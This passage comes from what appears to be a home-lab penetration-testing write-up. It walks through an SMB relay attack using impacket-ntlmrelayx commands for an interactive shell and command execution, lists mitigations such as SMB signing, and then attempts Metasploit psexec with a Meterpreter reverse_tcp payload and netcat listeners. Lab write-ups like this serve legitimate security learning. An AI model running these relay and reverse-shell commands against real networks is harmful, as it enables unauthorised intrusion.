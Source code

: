             impacket-ntlmrelayx -tf targets.txt -smb2support -i  

![image](https://github.com/user-attachments/assets/dff22fbf-f7e3-4415-bb76-c1f9a7c42541)

Once interactive shell has been obtained as seen above, we can now bind this with netcat via the SMB shell TCP on 127.0.0.1:11000  
Once netcat has been binded to list all the available arguments that is available to be used in this specific shell environment.  

![image](https://github.com/user-attachments/assets/5ea73547-920d-4d1d-8ce7-085dadedbfc1)

7. Using command switch with impacket. 

            impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"

![image](https://github.com/user-attachments/assets/0bda36ba-980a-444a-ad6d-de4fa828981a)  

SMB relay attack with -c 'whoami' flag successful

## 🔵 SMB Relay attack Mitigations

1. Enable SMB Signing on all devices.
2. Accounting Tiering (limiting specific accounts to defined tasks).
3. Local admin restriction.
4. Disable NTLM authentication (completely stops the attack however if Kerberos fails, it cannot default to NTLM authentication).

---

## 🚩 Gaining Shell Access

### 🔴 Metasploit module using psexec  
In metasploit we have chosen the windows/smb/psexec module  
![image](https://github.com/user-attachments/assets/5a95bb0b-2ef1-4559-9047-239d20571096)  

and set payload to x64 compatible as most* modern machines run x64.

            set payload windows/x64/meterpreter/reverse_tcp

configure the options with the information gathered in the LLMNR attack.

![image](https://github.com/user-attachments/assets/24e94831-edbe-47ec-b388-2287fe5ac5ba)

After trying to run, the exploit was suggested to be succesful however no session was created.  
Tried to debug this issue by setting payload to non x64 version, setting exploit targets to different settings, changing LPORT to 5555, setting up metasploit multi handler for connections and also nc -nlvp 4444. With no success.

![image](https://github.com/user-attachments/assets/e0567cb8-f6f3-4060-bcb4-81e7ad6cf4b6)  

Not a big deal... we can try to manually exploit it via a hash attack... (My preferred way anyways ;]) 
